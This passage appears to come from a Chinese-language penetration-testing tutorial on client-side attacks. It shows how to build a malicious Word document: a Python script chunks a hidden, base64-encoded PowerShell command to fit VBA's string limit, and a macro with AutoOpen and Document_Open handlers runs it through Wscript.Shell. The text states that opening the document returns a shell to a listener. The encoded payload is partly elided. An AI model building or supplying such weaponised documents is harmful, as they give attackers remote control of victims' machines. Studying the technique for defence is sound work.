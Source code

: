 这会产生一个非常长的字符串，而由于VBA的长度限制为255个字符，我们需要使用python对字符串进行快速处理。

```python
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."
n = 50
for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

![image-20200514104504110](assets/6.客户端攻击.assets/image-20200514104504110.png)

将字符串整理后加入脚本

```vbscript
Sub AutoOpen()
 MyMacro
End Sub
Sub Document_Open()
 MyMacro
End Sub
Sub MyMacro()
    
 Dim Str As String

 Str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZ"
 Str = Str + "gBTAEIARAAvAG4ARQBqADUASAAvAGgAZwBDAFoAQwBJAFoAUgB"
 ...
 Str = Str + "AZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0Ac"
 Str = Str + "QA="
 CreateObject("Wscript.Shell").Run Str
End Sub
```

建立监听，文档打开后会得到shell

![image-20200514104728873](assets/6.客户端攻击.assets/image-20200514104728873.png)
